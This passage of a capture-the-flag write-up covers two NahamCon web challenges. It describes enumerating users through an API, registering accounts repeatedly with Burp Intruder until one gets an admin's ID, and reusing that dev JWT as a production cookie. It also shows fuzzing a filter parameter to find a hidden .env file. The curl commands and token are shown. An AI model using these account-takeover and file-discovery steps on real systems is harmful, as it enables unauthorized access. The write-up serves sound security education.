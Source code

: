 However, in PostMan challenge, it was possible to enumerate users in the /app/api/users URL path.
The users have attributes id, disable, email, and role.
The only user with disabled set to false and role set to admin is `edward.collins[at]nahamcon.ctf`, with id 37.
So we will try to log in as this user.

```json
    {
      "id": 37,
      "disabled": false,
      "email": "edward.collins@nahamcon.ctf",
      "role": "admin"
    },
```

The user ID of the cookie got from /dev-app/ is 3.
Using Burp Intruder, we repeatedly made user registration requests on /dev-app/ until a user with id 37 was created.
And then, got the following JWT: `dev-token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozN30.KEGN0oBp_Xvhc_K_0aJW3Uhv2H3B4VrjT3rMsJwWGjA`

Send a request for /app/api/me with the cookie, we can obtain the flag.

```console
$ JWT='eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjozN30.KEGN0oBp_Xvhc_K_0aJW3Uhv2H3B4VrjT3rMsJwWGjA'

$ curl -s http://challenge.nahamcon.com:30781/app/api/me -b "token-for-prod=$JWT"
{"user":{"id":37,"disabled":false,"email":"edward.collins@nahamcon.ctf","role":"admin","admin_flag":"flag{df58cd2ca704c7824a55ce14f86f5878}"}}
```

The flag is accepted as Johnhammond's Wasting Time challenge.

### 4. Not For Your Eyes

We use the admin cookie got from the previous Johnhammond's Wasting Time challenge to make a request to the /app/api/files URL path.

```bash
curl -s http://challenge.nahamcon.com:30781/app/api/files -b "token-for-prod=$JWT" | jq
```

<details><summary>/app/api/files response:</summary></details>

The file information is sent.
It seems that there is a hidden file as `Files Hidden For Security: 1` and filter parameter as `Tip: Use the filter parameter to select specific file types.`
So try to bruteforce due to find a hidden file using filter parameter.

<details><summary>Fuzzing result:</summary></details>

Got hidden file named `h6d8kw.env`.

```console
$ curl -s http://challenge.nahamcon.com:30781/h6d8kw.env
WEBSITE_NAME=MAIN SITE
WEBSITE_PORT=80
BACKEND_NAME=BACKEND
BACKEND_PORT=80
BACKEND_HOST_MATCH=^([a-z0-9]{1,})\.intigriti\.com
FLAG=flag{74b281540fd0b66f9bf689e340c36ef8} 
```

